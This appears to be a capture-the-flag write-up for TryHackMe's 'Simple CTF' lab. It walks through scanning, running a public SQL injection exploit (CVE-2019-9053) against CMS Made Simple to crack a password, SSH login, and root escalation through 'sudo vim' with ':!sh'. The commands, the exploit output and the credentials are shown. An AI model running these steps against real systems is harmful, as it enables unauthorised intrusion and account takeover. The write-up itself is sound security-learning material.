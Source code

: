 # [Simple CTF](https://tryhackme.com/room/easyctf)

> Beginner level ctf

## Scanning

We will start a nmap scan

```
nmap -A -T4 10.10.232.89
```

![image](https://user-images.githubusercontent.com/90561566/182623084-843a068a-daf3-4eed-8107-583b7fa3ed8b.png)

We found 2 services running below port 1000, namely FTP (21) and HTTP (80)

We can see that ssh is running on the higher port (2222)

## Enumeration

I just view the default web page and see nothing, so let's use gobuster to find something

```
gobuster dir -u http://10.10.232.89/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/182626562-6e7b1b36-e22b-4756-8c83-979d6b05fb34.png)

let's see /robots.txt file

![image](https://user-images.githubusercontent.com/90561566/182626985-f3fcb05b-ba8f-42f4-955c-bb6f12c5c6dc.png)

and /simple page

![image](https://user-images.githubusercontent.com/90561566/182627264-f181bf7b-db22-462e-8875-e866f6b34307.png)

at the end of page, i see its version

![image](https://user-images.githubusercontent.com/90561566/182627984-c7973e00-78cb-4207-beb5-1a7b89543498.png)

```
searchsploit cms made simple 2.2.8
```

![image](https://user-images.githubusercontent.com/90561566/182628708-3a49d796-a2cb-43a8-8f2f-30d0483c055e.png)

We can download the exploit using `searchsploit -m 46635.py`

![image](https://user-images.githubusercontent.com/90561566/182629731-a154a783-6f13-4761-9728-05ca4113bc12.png)

The CVE is CVE-2019-9053 and vulnerability type is SQLi

## Exploitation

On the script, i see some python library to install with pip and 3 parameters to use

![image](https://user-images.githubusercontent.com/90561566/182630976-ebbdf050-d62c-4aeb-8365-8d75ffe25159.png)

```
python2.7 46635.py -u http://10.10.206.254/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

wait a while, you will find the password

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Now try to connect ssh server with "mitch" user and a "secret" password

```
ssh mitch@10.10.206.254 -p 2222
```

and we found the user.txt flag

![image](https://user-images.githubusercontent.com/90561566/182776632-dc1958c4-d406-4d1f-8279-b481900253d5.png)

let's see what other is under /home directory

```
$ ls /home
mitch  sunbath
```

## Privilege Escalation

```
sudo -l -l
```

![image](https://user-images.githubusercontent.com/90561566/182777513-bfb88323-27e6-4f0f-8c77-89e4701fab1a.png)

Only Vim can be run as root

```
sudo vim
```

In Vim, use the command `:!sh` to play shell on vim

![image](https://user-images.githubusercontent.com/90561566/183078765-3c3cdea7-9467-4795-9ff6-c6db30c00eed.png)

